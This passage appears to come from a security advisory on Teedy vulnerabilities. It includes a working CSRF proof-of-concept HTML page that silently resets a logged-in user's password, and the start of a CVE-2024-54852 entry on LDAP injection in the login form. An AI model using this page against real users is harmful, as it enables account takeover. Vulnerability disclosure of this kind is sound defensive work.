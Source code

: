 
### Proof of concept

This PoC will trick the user into changing its current password for the one defined in the `value` attributes below. The attacker has to host the following page onto its server and trick a user connected to Teedy to visit this website.
```HTML
<html>
  <body>
    <form action="http://172.21.114.187:8080/api/user" method="POST">
      <input type="hidden" name="password" value="hackedpwd" />
      <input type="hidden" name="passwordconfirm" value="hackedpwd" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

> [!note]
> In Chromium-based browser, the user needs to have connected 2 min prior to visiting the attacker page, due to the default behaviour of the SameSite attribute when not defined. [^1]

[^1]: [Chromium SameSite FAQ](https://www.chromium.org/updates/same-site/faq/)

## 👾 CVE-2024-54852

### Summary

| ID                    | CVE-2024-54852                                           |
|-----------------------|----------------------------------------------------------|
| **Type**              | LDAP Injection                                           |
| **Title**             | LDAP Injection on login form                             |
| **Product impacted**  | Teedy                                                    |
| **Impacted version**  | Versions between 1.9 and 1.12 included                   |
| **CVSS Score**        | 8.2                                                      |
| **Author**            | Sopalinge                                                |

### Description

When LDAP connection is activated on Teedy in versions 1.12 or prior, the username field of the login form is vulnerable to LDAP injection. Due to improper sanitization of user input, an unauthenticated attacker is then able to perform various malicious actions, such as creating arbitrary accounts and spraying passwords.

LDAP connection is **not** enabled by default. An administrator has to activate and configure it beforehand by defining an LDAP query that the application will run to authenticate users. It has to contain a `USERNAME` placeholder, e.g. `(&(objectclass=inetOrgPerson)(uid=USERNAME))`.
